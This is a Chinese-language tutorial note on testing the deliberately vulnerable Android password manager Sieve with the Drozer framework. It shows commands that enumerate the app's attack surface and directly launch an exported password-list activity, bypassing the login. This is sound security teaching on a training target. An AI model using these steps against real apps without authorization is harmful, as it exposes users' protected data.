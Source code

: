 ```yaml
---
title: Test Sieve - activities exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


* Drozer Seive - [官網](https://labs.withsecure.com/tools/drozer#3.1), [Download](https://github.com/WithSecureLabs/drozer/releases/download/2.3.4/sieve.apk)
  > Sieve is a small password manager app created to showcase some of the common vulnerabilities found in Android applications.
    
# Test Sieve - activities exported
<!-- more -->
參考[^csdn-sieve-1][^hacktricks-diva-sieve]，在測試之前要先點進去Sieve App中設定password和email之類的基本資訊，這樣之後測試才知道哪邊其實是漏洞
1. 起手式-確認基本資訊
    ```bash!
    dz> run app.package.list -f Sieve # 確認該App的package name
    Attempting to run shell module
    com.mwr.example.sieve (Sieve)
    
    dz> run app.package.info -a com.mwr.example.sieve # 確認該App的基本資訊
    Attempting to run shell module
    Package: com.mwr.example.sieve
      Application Label: Sieve
      Process Name: com.mwr.example.sieve
      Version: 1.0
      Data Directory: /data/user/0/com.mwr.example.sieve
      APK Path: /data/app/~~_mRnxjv10ez6OXDQWBrRZw==/com.mwr.example.sieve-yL301IHv87w7debjGy21vA==/base.apk
      UID: 10285
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - com.mwr.example.sieve.READ_KEYS
      - com.mwr.example.sieve.WRITE_KEYS
      
    dz> run app.package.manifest com.mwr.example.sieve # 確認該App的manifest有沒有什麼異常或漏洞的提示
    ...
    
    dz> run app.package.attacksurface com.mwr.example.sieve # 確認該App的攻擊面有哪些
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      2 content providers exported
      2 services exported
        is debuggable
    ```
    看攻擊面的左邊就是該攻擊點有幾個
2. activities exported
    1. 列出exported activities有哪些
        ```bash
        dz> run app.activity.info -a com.mwr.example.sieve
        Attempting to run shell module
        Package: com.mwr.example.sieve
          com.mwr.example.sieve.FileSelectActivity
            Permission: null
          com.mwr.example.sieve.MainLoginActivity
            Permission: null
          com.mwr.example.sieve.PWList
            Permission: null
        ```
    2. 啟動activity
        ```bash
        dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
        ```
        此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
        ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)
# Reference
[^csdn-sieve-1]:[drozer之玩轉sieve](https://blog.csdn.net/samlirongsheng/article/details/104926282)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)